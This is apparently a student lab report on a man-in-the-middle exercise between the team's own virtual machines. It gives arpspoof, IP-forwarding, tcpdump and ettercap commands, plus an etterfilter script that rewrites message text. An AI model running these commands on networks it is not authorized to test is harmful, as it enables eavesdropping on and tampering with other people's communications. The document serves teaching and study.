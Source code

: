 # PCS Project 2- Part 1: Hands-on experience with launching MITM attack to eavesdrop on the
network communication.

## A. Team Information:

* Bhargavi Poyekar: CH33454
* Smit Patne: WD31175

## B. Commands invoked on attacker VM for ARP spoofing/poisoning:

    Attacker Machine: 133.228.83.1 => Smit's Kali Machine.
    User 1: 133.228.86.2 => Bhargavi's Ubuntu 22
    User 2: 133.228.86.3 => Bhargavi's Ubuntu 20.

    1. sudo arpspoof -i eth1 -t 133.228.86.2 -r 133.228.86.3

        => Arpspoof utility is used to redirect traffic from 133.228.86.2 
        and 133.228.86.3 to attacker machine 
        => -i just tells the interface.
        => -t specifies the target.
        => r specifies host. 

    2. sudo sysctl -w net.ipv4.ip_forward=1

        => Enables IP forwarding. 
        => Allows attacker machine to forward traffic between 
        target machines.

    3. sudo tcpdump -i eth1 -s0 'tcp and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0) 
    and host 133.228.86.2 and host 133.228.86.3' -w mitm.pcap

        => tcpdump to capture the non-empty tcppackets between both the Users.

## C. Netcat commands used on two VMs:

    User 1 (133.228.86.2): nc 133.228.86.3 22222

        => Communicate with User 2 on port 22222. 

    User 2 (133.228.86.3): nc -l 22222

        => Make port 22222 to listen. 

## D. Data communicated between users on two VMs:

    User 1 sent => Hello 86.3, I am 86.2
    User 2 reply => Hii, Nice to meet you!!

## E. Communication captured by attacker:

    Read Tcp Dump: 

        sudo tcpdump -X -r mitm.pcap

        => r : for reading the captured packet.
        => X : Read in ASCII format so that we can identify the message. 
    
    Packet Details: 

        1. The msg sent by user 1 is captured in packet => 19:28:16.032753 and 19:28:16.032782 on line number 1065 and 1071
        respectively in the tcpdump file. 

        2. The msg sent by user 2 is captured in packet => 19:28:27.357079 and 19:28:27.357084 on line number 1863 and 1869
        respectively in the tcpdump file. 

        => We couldn't find the packet number because we didn't use -v and hence, the tcpdump didn't capture the packet number 
        in the pcap file. 

        Double Capture:
        => Both the message packets were captured twice. All the packets beteen Users are going through Attacker Machine.
        Hence, the attacker machine recieves a packet and then fowards the packet. This is the reason tcpdump captures it twice,
        once when it is received and once when it is forwarding.

## F. Options for Double Capture:

    We tried to capture the packets only once, but to do capture only once, we have to specify source as the User Ip address,
    which doesn't capture 2 way communication. 

## G. Challenges Faced:

    1. We didn't face challenge in the actual assignment, but the bonus part is tricky.
    We tried using ettercap for the modification. But most of the resources of ettercap uses the GUI interface
    and when we tried to start the GUI in Kali-linux machine, it was not allowing. We were getting errors. We tried
    debugging it by trying to install other required libraries, but it still didn't work.

    2. We also tried etterfilter and used it with ettercap text only mode. But the command of ettercap was giving 
    constant syntax error for the command, and we couldn't debug it.

    With the etterfilter, we created ig.filter file, where we wrote the if condition fo replacing the text in message.

        => Content of ig.filter

        if (ip.proto==TCP)
        {
                if (search(DATA.data, "Bhargavi"))
                {
                        replace("Bhargavi","Professor");
                }
        }

        => Commands used:

            -> sudo etterfilter ig.filter -o ig.ef
                => Creates ig.ef as output file which is used in the ettercap command for filtering.

            -> sudo ettercap -T -F ig.ef -M ARP /133.228.86.2,133.228.86.3/ // 

                => -T : Text-only Mode 
                => -F : Specified the filter 
                => -M : specifies Arp poisoning.
                => //// => This was giving the error, it said, incorrect number of tokens,
                but all the references that we tried referring were doing it in the same way.                                           

## H. Summary:

    1. We understood how Man in the Middle Attack can be perfomed using ARP Spoofing. 
    2. We understood how arpspoof utility can be used to redirect the traffic and how exactly it works.
    3. We also got to know why the packets are captured twice in tcpdump. 
    4. We got to know various tools that can be used for MITM modification like Ettercap, Buttercap, etc.

## I. References:

    1. Professor's Document for the Project.
    2. https://tutorialedge.net/security/arp-spoofing-for-mitm-attack-tutorial/
    3. https://linux.die.net/man/8/tcpdump
    4. https://www.hostinger.com/tutorials/grep-command-in-linux-useful-examples/#:~:text=Grep%2C%20or%20global%20regular%20expression,any%20lines%20that%20contain%20it.
    5. https://linux.die.net/man/8/ettercap
    6. https://linux.die.net/man/8/etterfilter














